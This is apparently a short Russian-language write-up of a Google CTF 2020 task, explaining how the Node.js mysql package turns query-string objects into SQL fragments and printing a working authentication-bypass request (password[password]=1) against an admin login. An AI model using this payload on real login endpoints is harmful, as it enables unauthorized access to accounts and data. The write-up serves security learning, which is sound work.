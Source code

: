 # SQLi in Node.js

На Google CTF 2020 был таск.&#x20;

Было: Node.js, mysql-package (16k stars on github) для запросов к базе

Был такой запрос для авторизации:

```javascript
GET /endpoint?user=admin&password=blabla&csrf=
```

Он вставлялся в запрос

```sql
query = "SELECT * FROM users WHERE user == ? AND password == ?"
```

Обычные preparement statement

Однако у библиотеки mysql-package есть особенность по преобразованию JS объектов в параметры запроса

А именно: все объекты преобразуются в массивы и вставляются в итоговый запрос следующим образом:

```
GET /endpoint?user=admin&password[password]=blabla&csrf=

--->

SELECT *
FROM users
WHERE
    user = 'admin'
    AND password='password'='blabla'
    
--->

И этот запрос отработает!!!
password='password' -> он найдет колонку в базе password и скажет, что имена равны
 ==> это True (или 1)
 
Затем будет сравниваться 1 с blabla, 

Далее, авторизация пройдет успешно вот с таким запросом:
GET /endpoint?user=admin&password[password]=1&csrf=
```

